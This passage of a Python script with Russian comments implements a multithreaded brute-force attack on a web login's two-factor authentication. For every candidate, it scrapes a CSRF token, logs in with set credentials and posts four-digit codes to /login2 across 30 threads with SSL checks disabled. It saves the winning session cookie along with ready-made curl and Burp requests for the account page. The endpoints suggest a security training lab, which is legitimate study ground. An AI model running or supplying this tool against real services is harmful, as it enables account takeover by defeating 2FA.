                print(f"{bg_color}{code:^8} | {status:^8} | {str(length) + 'б':^10} | "                      f"{token_status:^6} | {cookie_status:^6} | {thread_id:^6} | "                      f"{request_count:^8} | {session_display:^40} | {csrf_display:^40} | {note:^20}{cls.RESET}")  
            else:  
                print(f"{color}{code:^8} | {status:^8} | {str(length) + 'б':^10} | "                      f"{token_status:^6} | {cookie_status:^6} | {thread_id:^6} | "                      f"{request_count:^8} | {session_display:^40} | {csrf_display:^40} | {note:^20}{cls.RESET}")  
  
            # Выводим команды для Burp/curl  
            if session_cookie and csrf_token:  
                print(f"{color}{'':^8} | {'':^8} | {'':^10} | {'':^6} | {'':^6} | {'':^6} | "                      f"{'':^8} | {'Для Burp Suite:':^40} | {'':^40} | {'':^20}{cls.RESET}")  
                print(f"{color}{'':^8} | {'':^8} | {'':^10} | {'':^6} | {'':^6} | {'':^6} | "                      f"{'':^8} | {'Cookie: session=' + session_cookie:^40} | "                      f"{'POST: csrf=' + csrf_token + '&mfa-code=' + code:^40} | {'':^20}{cls.RESET}")  
  
  
# ===================== УЛУЧШЕННЫЙ РАБОЧИЙ ПОТОК =====================  
class AttackWorker:  
    """Класс для выполнения атаки в одном потоке с повторными попытками"""  
  
    def __init__(self, config: Config, worker_id: int, results_queue: Queue, stop_event: threading.Event):  
        self.config = config  
        self.worker_id = worker_id  
        self.results_queue = results_queue  
        self.stop_event = stop_event  
  
        # Создаем свою сессию для каждого потока с улучшенными настройками  
        self.session = requests.Session()  
        adapter = requests.adapters.HTTPAdapter(  
            pool_connections=10,  
            pool_maxsize=100,  
            max_retries=3,  
            pool_block=False  
        )  
        self.session.mount('http://', adapter)  
        self.session.mount('https://', adapter)  
  
        self.session.headers.update({  
            'User-Agent': f'Mozilla/5.0 (Worker-{worker_id})',  
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',  
            'Accept-Language': 'ru-RU,ru;q=0.9',  
            'Accept-Encoding': 'gzip, deflate, br',  
            'Upgrade-Insecure-Requests': '1',  
            'Connection': 'keep-alive'  
        })  
  
        # Отключаем SSL предупреждения  
        self.session.verify = False  
        requests.packages.urllib3.disable_warnings()  
  
        self.local_stats = {  
            'requests': 0,  
            'codes_tested': 0,  
            'successful_logins': 0,  
            'failed_logins': 0,  
            'network_errors': 0,  
            'retries': 0  
        }  
  
        # Кэш для сессий  
        self.session_cache = {}  
  
    def extract_csrf_token(self, html: str) -> Optional[str]:  
        pattern = r'name="csrf"\s+value="([^"]+)"'  
        match = re.search(pattern, html)  
        return match.group(1) if match else None  
  
    def get_session_cookie(self) -> Optional[str]:  
        cookies = self.session.cookies.get_dict()  
        return cookies.get('session')  
  
    def make_request_with_retry(self, method: str, url: str, **kwargs) -> Optional[requests.Response]:  
        """Делает запрос с повторными попытками"""  
        for attempt in range(self.config.MAX_RETRIES + 1):  
            try:  
                response = self.session.request(method, url, timeout=self.config.TIMEOUT, **kwargs)  
                self.local_stats['requests'] += 1  
                return response  
            except Exception as e:  
                self.local_stats['network_errors'] += 1  
                if attempt < self.config.MAX_RETRIES:  
                    ThreadSafeLogger.log(f"Поток {self.worker_id}: Повтор {attempt + 1} для {url.split('/')[-1]}",  
                                         "NETWORK")  
                    time.sleep(0.5 * (attempt + 1))  
                    continue  
                else:  
                    ThreadSafeLogger.log(  
                        f"Поток {self.worker_id}: Все попытки неудачны для {url.split('/')[-1]}: {str(e)[:50]}",  
                        "ERROR")  
                    return None  
        return None  
    def get_initial_csrf_token(self) -> Tuple[bool, Optional[str], Optional[str]]:  
        """Получаем токен с детальной отладкой"""  
        try:  
            response = self.make_request_with_retry('GET', f"{self.config.BASE_URL}/login")  
  
            if response and response.status_code == 200:  
                csrf_token = self.extract_csrf_token(response.text)  
                session_cookie = self.get_session_cookie()  
                return bool(csrf_token), csrf_token, session_cookie  
            elif response:  
                ThreadSafeLogger.log(f"Поток {self.worker_id}: GET /login статус {response.status_code}", "DEBUG")  
        except Exception as e:  
            ThreadSafeLogger.log(f"Поток {self.worker_id}: Ошибка получения токена: {str(e)[:50]}", "ERROR")  
  
        return False, None, None  
  
    def login_to_account(self, csrf_token: str) -> Tuple[bool, Optional[str], Optional[str]]:  
        """Логинимся с детальной отладкой"""  
        try:  
            data = {  
                'csrf': csrf_token,  
                'username': self.config.USERNAME,  
                'password': self.config.PASSWORD  
            }  
  
            headers = {  
                'Content-Type': 'application/x-www-form-urlencoded',  
                'Origin': self.config.BASE_URL,  
                'Referer': f"{self.config.BASE_URL}/login"  
            }  
  
            response = self.make_request_with_retry('POST', f"{self.config.BASE_URL}/login",  
                                                    data=data, headers=headers)  
  
            if response:  
                if response.status_code == 200:  
                    new_csrf_token = self.extract_csrf_token(response.text)  
                    session_cookie = self.get_session_cookie()  
                    if new_csrf_token:  
                        self.local_stats['successful_logins'] += 1  
                        return True, new_csrf_token, session_cookie  
                    else:  
                        ThreadSafeLogger.log(f"Поток {self.worker_id}: Токен не найден после логина", "DEBUG")  
  
                elif response.status_code == 302:  
                    self.local_stats['successful_logins'] += 1  
                    session_cookie = self.get_session_cookie()  
                    ThreadSafeLogger.log(  
                        f"Поток {self.worker_id}: Редрирект при логине на {response.headers.get('Location', '?')}",  
                        "DEBUG")  
                    return True, csrf_token, session_cookie  # Используем старый токен  
  
                else:  
                    ThreadSafeLogger.log(  
                        f"Поток {self.worker_id}: Неожиданный статус при логине: {response.status_code}", "WARNING")  
  
        except Exception as e:  
            ThreadSafeLogger.log(f"Поток {self.worker_id}: Ошибка логина: {str(e)[:50]}", "ERROR")  
            self.local_stats['failed_logins'] += 1  
  
        return False, None, None  
  
    def test_single_code(self, code: str) -> Tuple[bool, Dict]:  
        """Тестируем один код с улучшенной отладкой"""  
  
        # Шаг 1: Получаем начальный токен  
        token_success, csrf_token, session_cookie = self.get_initial_csrf_token()  
        if not token_success:  
            ThreadSafeLogger.print_table_row(code, 0, 0, False, False, f"W{self.worker_id}",  
                                             self.local_stats['requests'], "НЕТ ТОКЕНА", "GET /login failed",  
                                             "", "")  
            return False, {"error": "no_token", "step": "get_token"}  
  
        # Шаг 2: Логинимся  
        login_success, login_csrf_token, login_session_cookie = self.login_to_account(csrf_token)  
        if not login_success:  
            ThreadSafeLogger.print_table_row(code, 0, 0, True, bool(session_cookie), f"W{self.worker_id}",  
                                             self.local_stats['requests'], "ЛОГИН ОШИБКА", "POST /login failed",  
                                             session_cookie or "", csrf_token or "")  
            return False, {"error": "login_failed", "step": "login"}  
  
        # Шаг 3: Проверяем 2FA код  
        try:  
            data = {  
                'csrf': login_csrf_token,  
                'mfa-code': code  
            }  
  
            headers = {  
                'Content-Type': 'application/x-www-form-urlencoded',  
                'Origin': self.config.BASE_URL,  
                'Referer': f"{self.config.BASE_URL}/login2"  
            }  
  
            response = self.make_request_with_retry('POST', f"{self.config.BASE_URL}/login2",  
                                                    data=data, headers=headers)  
  
            if response:  
                self.local_stats['codes_tested'] += 1  
  
                status = response.status_code  
                length = len(response.text) if response.text else 0  
                current_session_cookie = self.get_session_cookie() or login_session_cookie  
  
                # Выводим результат  
                note = ""  
                error_details = ""  
  
                if status == 302:  
                    note = "🎉 УСПЕХ!"  
                    result = {  
                        'code': code,  
                        'status': status,  
                        'length': length,  
                        'worker_id': self.worker_id,  
                        'success': True,  
                        'session_cookie': current_session_cookie,  
                        'login_csrf_token': login_csrf_token,  
                        'redirect_location': response.headers.get('Location', '')  
                    }  
  
                    # Выводим строку таблицы  
                    ThreadSafeLogger.print_table_row(code, status, length, True, bool(current_session_cookie),  
                                                     f"W{self.worker_id}", self.local_stats['requests'],  
                                                     note, "", current_session_cookie or "", login_csrf_token or "")  
  
                    # Выводим детальную информацию об успехе  
                    ThreadSafeLogger.log(f"ПОТОК {self.worker_id} НАШЕЛ КОД: {code}", "SUCCESS")  
                    ThreadSafeLogger.log(f"🎯 ДЛЯ BURP SUITE:", "SUCCESS")  
                    ThreadSafeLogger.log(f"   URL: POST {self.config.BASE_URL}/login2", "SUCCESS")  
                    ThreadSafeLogger.log(f"   Cookie: session={current_session_cookie}", "SUCCESS")  
                    ThreadSafeLogger.log(f"   Body: csrf={login_csrf_token}&mfa-code={code}", "SUCCESS")  
                    ThreadSafeLogger.log(f"   После успеха перейдите на: {self.config.BASE_URL}/my-account", "SUCCESS")  
  
                    # Сохраняем в файл для удобства  
                    self.save_success_result(result)  
  
                    return True, result  
  
                elif status == 400:  
                    note = "400 ОШИБКА"  
                    error_details = "Неверный код или сессия"  
                elif status == 429:  
                    note = "429 ЛИМИТ"  
                    error_details = "Слишком много запросов"  
                elif status == 0:  
                    note = "СЕТЕВАЯ ОШИБКА"  
                    error_details = "Нет ответа от сервера"  
                elif status != 200:  
                    note = f"СТАТУС {status}"  
                    error_details = f"Неожиданный ответ"  
  
                # Выводим строку таблицы для обычного ответа  
                ThreadSafeLogger.print_table_row(code, status, length, True, bool(current_session_cookie),  
                                                 f"W{self.worker_id}", self.local_stats['requests'],  
                                                 note, "", current_session_cookie or "", login_csrf_token or "")  
  
                return False, {  
                    'code': code,  
                    'status': status,  
                    'length': length,  
                    'worker_id': self.worker_id,  
                    'success': False,  
                    'error': note,  
                    'session_cookie': current_session_cookie,  
                    'csrf_token': login_csrf_token  
                }  
  
            else:  
                # Ошибка сети при проверке кода  
                ThreadSafeLogger.print_table_row(code, 0, 0, True, bool(login_session_cookie),  
                                                 f"W{self.worker_id}", self.local_stats['requests'],  
                                                 "СЕТЕВАЯ ОШИБКА", "POST /login2 failed",  
                                                 login_session_cookie or "", login_csrf_token or "")  
                return False, {"error": "network_error", "step": "check_code"}  
  
        except Exception as e:  
            error_msg = str(e)[:50]  
            ThreadSafeLogger.print_table_row(code, 0, 0, True, False, f"W{self.worker_id}",  
                                             self.local_stats['requests'], "ИСКЛЮЧЕНИЕ", error_msg,  
                                             "", login_csrf_token or "")  
            return False, {"error": str(e)}  
  
    def save_success_result(self, result: Dict):  
        """Сохраняет успешный результат в файл"""  
        try:  
            filename = f"SUCCESS_code_{result['code']}_{datetime.now().strftime('%H%M%S')}.txt"  
            with open(filename, 'w', encoding='utf-8') as f:  
                f.write("=" * 80 + "\n")  
                f.write("🎉 УСПЕШНЫЙ ВЗЛОМ 2FA!\n")  
                f.write("=" * 80 + "\n\n")  
                f.write(f"Найденный код: {result['code']}\n")  
                f.write(f"Найден потоком: {result['worker_id']}\n")  
                f.write(f"Время: {datetime.now().strftime('%Y-%m-%d %H:%M:%S')}\n\n")  
  
                f.write("🔧 ДЛЯ BURP SUITE / РУЧНОЙ ПРОВЕРКИ:\n")  
                f.write("=" * 80 + "\n")  
                f.write(f"URL: POST {self.config.BASE_URL}/login2\n")  
                f.write(f"Cookie: session={result['session_cookie']}\n")  
                f.write(f"Body: csrf={result['login_csrf_token']}&mfa-code={result['code']}\n\n")  
  
                f.write("📋 Для curl:\n")  
                f.write(f"curl -X POST '{self.config.BASE_URL}/login2' \\\n")  
                f.write(f"  -H 'Cookie: session={result['session_cookie']}' \\\n")  
                f.write(f"  -H 'Content-Type: application/x-www-form-urlencoded' \\\n")  
                f.write(f"  -d 'csrf={result['login_csrf_token']}&mfa-code={result['code']}'\n\n")  
  
                f.write("🔗 После успешного входа:\n")  
                f.write(f"GET {self.config.BASE_URL}/my-account\n")  
                f.write(f"Cookie: session={result['session_cookie']}\n\n")  
  
                f.write("🔄 Редирект:\n")  
                f.write(f"Location: {result['redirect_location']}\n")  
  
            ThreadSafeLogger.log(f"Результат сохранен в: {filename}", "SUCCESS")  
        except Exception as e:  
            ThreadSafeLogger.log(f"Ошибка сохранения результата: {e}", "ERROR")  
  
    def process_codes(self, codes: List[str]):  
        """Обрабатывает список кодов в этом потоке"""  
        for code in codes:  
            # Проверяем, не нужно ли остановиться  
            if self.stop_event.is_set():  
                break  
  
            # Тестируем код  
            success, result = self.test_single_code(code)  
  
            # Если нашли правильный код  
            if success:  
                ThreadSafeLogger.log(f"🎉 Поток {self.worker_id} нашел код: {code}", "SUCCESS")  
                self.results_queue.put({  
                    'type': 'success',  
                    'code': code,  
                    'worker_id': self.worker_id,  
                    'result': result  
                })  
                self.stop_event.set()  # Сигнализируем всем остановиться  
                break  
  
            # Задержка между запросами  
            time.sleep(self.config.DELAY_BETWEEN_REQUESTS)  
  
        # Отправляем статистику потока  
        self.results_queue.put({  
            'type': 'stats',  
            'worker_id': self.worker_id,  
            'stats': self.local_stats  
        })  
  
  
# ===================== ОСНОВНОЙ КОНТРОЛЛЕР =====================  
class TwoFAMultiThreadedAttacker:  
    """Управляет многопоточной атакой"""  
  
    def __init__(self, config: Config):  
        self.config = config  
        self.results_queue = Queue()  
        self.stop_event = threading.Event()  
  
        # Глобальная статистика  
        self.global_stats = {  
            'total_requests': 0,  
            'total_codes_tested': 0,  
            'successful_logins': 0,  
            'failed_logins': 0,  
            'network_errors': 0,  
            'workers_completed': 0,  
            'start_time': None,  
            'end_time': None,  
            'found_code': None,  
            'success_data': None  
        }  
  
        ThreadSafeLogger.print_header("2FA BRUTE FORCE - МНОГОПОТОЧНАЯ АТАКА")  
        ThreadSafeLogger.log(f"🔗 Цель: {config.BASE_URL}", "INFO")  
        ThreadSafeLogger.log(f"👤 Пользователь: {config.USERNAME}", "INFO")  
        ThreadSafeLogger.log(f"🔢 Диапазон кодов: {config.START_CODE:04d} - {config.END_CODE:04d}", "INFO")  
        ThreadSafeLogger.log(f"🧵 Потоков: {config.THREADS}", "INFO")  
        ThreadSafeLogger.log(f"🔄 Повторных попыток: {config.MAX_RETRIES}", "INFO")  
        ThreadSafeLogger.print_table_header()  
  
    def distribute_codes(self) -> List[List[str]]:  
        """Распределяет коды между потоками ПО ПОРЯДКУ (round-robin)"""  
        total_codes = self.config.END_CODE - self.config.START_CODE + 1  
  
        # Создаем пустые списки для каждого потока  
        chunks = [[] for _ in range(self.config.THREADS)]  
  
        # Распределяем коды round-robin  
        current_code = self.config.START_CODE  
        thread_index = 0  
  
        while current_code <= self.config.END_CODE:  
            chunks[thread_index].append(f"{current_code:04d}")  
            current_code += 1  
            thread_index = (thread_index + 1) % self.config.THREADS  
  
        return chunks  
  
    def start_attack(self):  
        """Запускает многопоточную атаку"""  
        self.global_stats['start_time'] = datetime.now()  
        success_data = None  
  
        try:  
            # Распределяем коды  
            code_chunks = self.distribute_codes()  
  
            # Запускаем потоки  
            with ThreadPoolExecutor(max_workers=self.config.THREADS) as executor:  
                futures = []  
  
                for i, chunk in enumerate(code_chunks):  
                    if chunk:  
                        worker = AttackWorker(self.config, i + 1, self.results_queue, self.stop_event)  
                        future = executor.submit(worker.process_codes, chunk)  
                        futures.append(future)  
  
                # Мониторим результаты  
                while futures and not self.stop_event.is_set():  
                    # Проверяем завершенные future  
                    done_futures = [f for f in futures if f.done()]  
  
                    for future in done_futures:  
                        futures.remove(future)  
                        try:  
                            future.result(timeout=1)  
                        except Exception as e:  
                            ThreadSafeLogger.log(f"Ошибка в потоке: {e}", "ERROR")  
  
                    # Проверяем очередь результатов  
                    try:  
                        while True:  
                            result = self.results_queue.get_nowait()  
  
                            if result['type'] == 'success':  
                                success_data = result  
                                self.global_stats['found_code'] = result['code']  
                                self.global_stats['success_data'] = result['result']  
                                self.stop_event.set()  
                                break  
  
                            elif result['type'] == 'stats':  
                                # Обновляем глобальную статистику  
                                stats = result['stats']  
                                self.global_stats['total_requests'] += stats['requests']  
                                self.global_stats['total_codes_tested'] += stats['codes_tested']  
                                self.global_stats['successful_logins'] += stats['successful_logins']  
                                self.global_stats['failed_logins'] += stats['failed_logins']  
                                self.global_stats['network_errors'] += stats['network_errors']  
                                self.global_stats['workers_completed'] += 1  
  
                    except:  
                        pass  # Очередь пуста  
  
                    time.sleep(0.1)  
  
        except KeyboardInterrupt:  
            ThreadSafeLogger.log("\nАтака прервана пользователем", "WARNING")  
            self.stop_event.set()  
        except Exception as e:  
            ThreadSafeLogger.log(f"Критическая ошибка: {str(e)}", "ERROR")  
        finally:  
            self.finish_attack(success_data)  
  
    def finish_attack(self, success_data: Optional[Dict]):  
        """Завершает атаку с выводом результатов"""  
        self.global_stats['end_time'] = datetime.now()  
  
        if self.global_stats['end_time'] and self.global_stats['start_time']:  
            duration = (self.global_stats['end_time'] - self.global_stats['start_time']).total_seconds()  
        else:  
            duration = 0  
  
        print(f"\n{'=' * 180}")  
  
        if success_data:  
            ThreadSafeLogger.print_header("🎉 АТАКА УСПЕШНА!")  
  
            result = success_data['result']  
            ThreadSafeLogger.log(f"🔑 НАЙДЕН КОД: {success_data['code']}", "SUCCESS")  
            ThreadSafeLogger.log(f"🧵 Найден потоком: {success_data['worker_id']}", "SUCCESS")  
  
            ThreadSafeLogger.log(f"🍪 Cookie: session={result['session_cookie']}", "SUCCESS")  
            ThreadSafeLogger.log(f"🛡️ CSRF токен: {result['login_csrf_token']}", "SUCCESS")  
  
            if 'redirect_location' in result and result['redirect_location']:  
                ThreadSafeLogger.log(f"🔄 Редирект на: {result['redirect_location']}", "INFO")  
  
            ThreadSafeLogger.log(f"💾 Результаты сохранены в файл SUCCESS_code_*.txt", "INFO")  
  
        else:  
            ThreadSafeLogger.print_header("АТАКА ЗАВЕРШЕНА")  
            ThreadSafeLogger.log("✗ Правильный код не найден", "ERROR")  
  
        ThreadSafeLogger.log("\n📊 ФИНАЛЬНАЯ СТАТИСТИКА:", "INFO")  
        ThreadSafeLogger.log(f"  ✅ Проверено кодов: {self.global_stats['total_codes_tested']}", "INFO")  
        ThreadSafeLogger.log(f"  🧵 Завершено потоков: {self.global_stats['workers_completed']}", "INFO")  
        ThreadSafeLogger.log(f"  🔐 Успешных логинов: {self.global_stats['successful_logins']}", "INFO")  
        ThreadSafeLogger.log(f"  ❌ Неудачных логинов: {self.global_stats['failed_logins']}", "INFO")  
        ThreadSafeLogger.log(f"  🌐 Сетевых ошибок: {self.global_stats['network_errors']}", "INFO")  
        ThreadSafeLogger.log(f"  📨 Всего запросов: {self.global_stats['total_requests']}", "INFO")  
        ThreadSafeLogger.log(f"  ⏱️  Время выполнения: {duration:.2f} сек", "INFO")  
  
        if duration > 0:  
            speed = self.global_stats['total_codes_tested'] / duration  
            ThreadSafeLogger.log(f"  🚀 Скорость: {speed:.1f} кодов/сек ({speed * 60:.0f} кодов/мин)", "INFO")  
  
            # Оценка времени для полного перебора  
            remaining_codes = 10000 - self.global_stats['total_codes_tested']  
            if speed > 0 and remaining_codes > 0:  
                est_time = remaining_codes / speed  
                ThreadSafeLogger.log(f"  ⏳ Оценка для 10к кодов: {est_time / 60:.1f} мин ({est_time / 3600:.1f} часов)",  
                                     "INFO")  
  
  
# ===================== ЗАПУСК =====================  
def main():  
    """Точка входа"""  
  
    config = Config()  
  
    # === ТЕСТОВЫЙ РЕЖИМ (для проверки) ===  
    # config.END_CODE = 100      # Только 100 кодов    # config.THREADS = 3         # 3 потока    # config.DELAY_BETWEEN_REQUESTS = 0.2  # Большая задержка  
    # === ПОЛНАЯ АТАКА (раскомментируй) ===    config.END_CODE = 9999  # Все 10,000 кодов  
    config.THREADS = 30  # 10 потоков для скорости  
    config.DELAY_BETWEEN_REQUESTS = 0.05  # Оптимальная задержка  
  
    # Выводим настройки для проверки    print(f"\n⚙️  ФАКТИЧЕСКИЕ НАСТРОЙКИ:")  
    print(f"  • Коды: {config.START_CODE:04d} - {config.END_CODE:04d}")  
    print(f"  • Потоков: {config.THREADS}")  
    print(f"  • Задержка: {config.DELAY_BETWEEN_REQUESTS} сек")  
    print(f"  • Всего кодов: {config.END_CODE - config.START_CODE + 1}\n")  
  
    attacker = TwoFAMultiThreadedAttacker(config)  
  
    try:  
        attacker.start_attack()  
    except KeyboardInterrupt:  
        ThreadSafeLogger.log("\nПрограмма завершена", "INFO")  
  
    sys.exit(0)  
  
  
if __name__ == "__main__":  
    main()
```


# УСТРАНЕНИЕ ПРОБЛЕМЫ